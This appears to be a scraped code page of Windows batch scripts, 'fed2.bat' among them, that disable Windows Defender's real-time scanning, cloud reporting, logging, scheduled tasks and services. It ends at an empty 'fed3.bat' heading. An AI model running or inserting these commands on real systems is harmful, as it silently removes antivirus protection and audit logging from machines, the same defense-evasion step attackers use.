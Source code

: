 ```
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableScanOnRealtimeEnable" /t REG\_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Reporting" /v "DisableEnhancedNotifications" /t REG\_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "DisableBlockAtFirstSeen" /t REG\_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /t REG\_DWORD /d "0" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "SubmitSamplesConsent" /t REG\_DWORD /d "0" /f
```

Content of `fed2.bat` script:



```
@echo off
rem 0 - Disable Logging
reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderApiLogger" /v "Start" /t REG\_DWORD /d "0" /f
reg add "HKLM\System\CurrentControlSet\Control\WMI\Autologger\DefenderAuditLogger" /v "Start" /t REG\_DWORD /d "0" /f
rem Disable WD Tasks
schtasks /Change /TN "Microsoft\Windows\ExploitGuard\ExploitGuard MDM policy Refresh" /Disable
schtasks /Change /TN "Microsoft\Windows\Windows Defender\Windows Defender Cache Maintenance" /Disable
schtasks /Change /TN "Microsoft\Windows\Windows Defender\Windows Defender Cleanup" /Disable
schtasks /Change /TN "Microsoft\Windows\Windows Defender\Windows Defender Scheduled Scan" /Disable
schtasks /Change /TN "Microsoft\Windows\Windows Defender\Windows Defender Verification" /Disable
rem Disable WD systray icon
reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run" /v "Windows Defender" /f
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "Windows Defender" /f
reg delete "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v "WindowsDefender" /f
rem Remove WD context menu
reg delete "HKCR\*\shellex\ContextMenuHandlers\EPP" /f
reg delete "HKCR\Directory\shellex\ContextMenuHandlers\EPP" /f
reg delete "HKCR\Drive\shellex\ContextMenuHandlers\EPP" /f
rem Disable WD services
reg add "HKLM\System\CurrentControlSet\Services\WdBoot" /v "Start" /t REG\_DWORD /d "4" /f
reg add "HKLM\System\CurrentControlSet\Services\WdFilter" /v "Start" /t REG\_DWORD /d "4" /f
reg add "HKLM\System\CurrentControlSet\Services\WdNisDrv" /v "Start" /t REG\_DWORD /d "4" /f
reg add "HKLM\System\CurrentControlSet\Services\WdNisSvc" /v "Start" /t REG\_DWORD /d "4" /f
reg add "HKLM\System\CurrentControlSet\Services\WinDefend" /v "Start" /t REG\_DWORD /d "4" /f
reg add "HKLM\System\CurrentControlSet\Services\SecurityHealthService" /v "Start" /t REG\_DWORD /d "4" /f
rem Run "Disable WD.bat" again to disable WD services
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG\_DWORD /d 1 /f
```

Content of `fed3.bat` script:
